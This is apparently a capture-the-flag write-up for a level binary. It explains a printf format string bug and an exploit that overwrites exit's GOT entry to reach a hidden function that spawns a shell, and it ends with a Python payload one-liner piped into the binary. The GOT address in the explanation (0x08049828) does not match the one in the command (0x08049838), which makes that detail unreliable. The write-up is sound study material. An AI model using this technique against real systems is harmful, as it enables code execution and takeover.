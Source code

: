 # LEVEL5

## EXPLANATIONS

### BINARY BEHAVIOR

- 3 function main, n, and o. main call n but o is never called
  - \<n\>
    - n gets the stdin input and put it in buf
    - then printf(buf) (format string exploit)
    - exit
  - \<o\>
    - call system("bin/sh")

### EXPLOIT STRATEGY

- same as before, format string exploit

  - in previous levels, overwriting a given address with a given value would lead to a win.
  - This time, we only see a o function, called nowhere, that makes us win.
  - Somehow we need to write an format string exploit that will call this function.
  - There's a call to exit so we cannot just override sEIP.
  - Looking to override exit, we saw function name was @plt and then @got.plt.
  - Some reasearches on this quickly led us to know we could change addresses of the global offset table.

- exit GOT address : 0x08049828
- address of \<o\> : 134513824 + 4 = 0x080484A4

### RUN COMMAND

```
python -c "print('\x08\x04\x98\x38'[::-1] + '%134513824x' + '%4\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | /home/user/level5/level5
```
